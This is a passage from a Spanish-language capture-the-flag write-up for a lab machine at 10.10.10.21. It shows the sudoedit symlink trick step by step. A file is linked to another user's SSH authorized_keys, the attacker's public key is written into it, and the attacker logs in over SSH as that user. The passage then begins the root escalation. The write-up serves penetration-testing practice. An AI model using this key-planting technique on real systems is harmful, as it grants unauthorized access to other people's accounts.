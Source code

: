 No tenemos capacidad de escritura en el directorio `/var/www` pero hay un directorio testing donde el usuario proprietario es werkzeug.

```bash
cd /var/www/testing
ls -l
mkdir hannamod
cd !$
echo "Hola" > layout.html
```

Testeamos el comando **sudoedit**

```bash
sudoedit -u alekos /var/www/testing/hannamod/layout.html
```

El comando no abre un nano en el cual podemos editar el contenido. El truco aqui es burlar el fichero para que el usuario pueda editar
un ficher tercio en el cual tenga capacidad de escritura

1. Creamos un enlace symbolico contra el **authorized_keys** del usuario alekos

    ```bash
    ln -s -f /home/alekos/.ssh/authorized_keys layout.html
    ```

1. Nos creamos un par de claves

    ```bash
    ssh-keygen
    ```

1. Lanzamos el **sudoedit** y copiamos la clave publica creada
1. Nos conectamos al usuario alekos por ssh

    ```bash
    ssh -i id-rsa alekos@10.10.10.21
    ```

Pa dentro... somos alekos y podemos leer la flag.

### Escalada de privilegios al usuario root {-}

```bash
id
sudo -l
ls -l
```

vemos que hay dos directorios 

- backup
- development

```bash
cd backup
stat *
stat * | grep "Modify"
```
